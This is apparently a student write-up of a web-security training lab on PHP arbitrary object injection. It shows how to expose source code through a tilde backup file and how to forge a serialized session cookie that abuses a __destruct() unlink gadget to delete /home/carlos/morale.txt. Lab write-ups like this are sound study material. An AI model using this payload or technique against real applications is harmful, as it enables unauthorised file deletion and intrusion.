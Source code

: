 # Arbitrary object injection in PHP

 This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: wiener:peter 

### solution

- start by logging in using **wiener:peter** creds but intercept this request

<img src=./images/Capture0.PNG alt="img0" width="700"/>

- we did that cuz we want to get the sitemap of the site
- from the sitemap we notice interesting file **CustomTemplate.php**

<img src=./images/Capture10.PNG alt="img10" width="700"/>

- try appending `tilda ~` to this file in the url.
- we got the source code

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

- from the source code we notice that their is a magic method **__destruct()**
- in this method we find **unlink()** method that will delete the file stored in **lock_file_path**
- back to the request we intercepted and note that the cookie has the value: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJhdWZkeXVlb2ZocWt0b3c1dzVvd3UzcXhsZGZubmJ3bCI7fQ%3d%3d`
- decode it in cyberchef and u will get this: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"aufdyueofhqktow5w5owu3qxldfnnbwl";}`

<img src=./images/Capture11.PNG alt="img11" width="700"/>

- change it to `O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}` then encode it and send the request again.
- congratzzzzzzzzzzzzzzzzzzzzzz